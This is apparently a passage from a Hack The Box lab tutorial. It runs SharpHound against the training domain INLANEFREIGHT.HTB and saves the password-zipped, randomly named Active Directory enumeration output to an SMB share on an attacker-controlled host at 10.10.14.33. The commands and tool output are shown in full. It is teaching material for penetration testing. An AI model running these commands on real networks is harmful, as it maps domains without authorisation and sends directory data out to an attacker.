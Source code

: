 Now let's connect to the shared folder and save SharpHound output there:

#### Connect to the shared folder with username and password

```cmd-session
C:\htb> net use \\10.10.14.33\share /user:test test
The command completed successfully.

```

#### Running SharpHound and saving the output to a shared folder

```cmd-session
C:\htb> C:\Tools\SharpHound.exe --memcache --outputdirectory \\10.10.14.33\share\ --zippassword HackTheBox --outputprefix HTB --randomfilenames
2023-01-11T11:31:43.4459137-06:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
2023-01-11T11:31:43.5998704-06:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-01-11T11:31:43.6311043-06:00|INFORMATION|Initializing SharpHound at 11:31 AM on 1/11/2023
2023-01-11T11:31:55.0551988-06:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-01-11T11:31:55.2710788-06:00|INFORMATION|Beginning LDAP search for INLANEFREIGHT.HTB
2023-01-11T11:31:55.3089182-06:00|INFORMATION|Producer has finished, closing LDAP channel
2023-01-11T11:31:55.3089182-06:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-01-11T11:32:25.7331485-06:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2023-01-11T11:32:41.7321172-06:00|INFORMATION|Consumers finished, closing output channel
2023-01-11T11:32:41.7633662-06:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2023-01-11T11:32:52.2310202-06:00|INFORMATION|Status: 94 objects finished (+94 1.678571)/s -- Using 42 MB RAM
2023-01-11T11:32:52.2466171-06:00|INFORMATION|Enumeration finished in 00:00:56.9776773
2023-01-11T11:33:09.4855302-06:00|INFORMATION|SharpHound Enumeration Completed at 11:33 AM on 1/11/2023! Happy Graphing!

```

#### Unzipping the file

```shell
unzip ./HTB_20230111113143_5yssigbd.w3f
Archive:  ./HTB_20230111113143_5yssigbd.w3f
[./HTB_20230111113143_5yssigbd.w3f] HTB_20230111113143_hjclkslu.2in password:
  inflating: HTB_20230111113143_hjclkslu.2in
  inflating: HTB_20230111113143_hk3lxtz3.1ku
  inflating: HTB_20230111113143_kghttiwp.jbq
  inflating: HTB_20230111113143_kdg5svst.4sc
  inflating: HTB_20230111113143_qeugxqep.lya
  inflating: HTB_20230111113143_xsxzlxht.awa
  inflating: HTB_20230111113143_51zkhw0e.bth

```
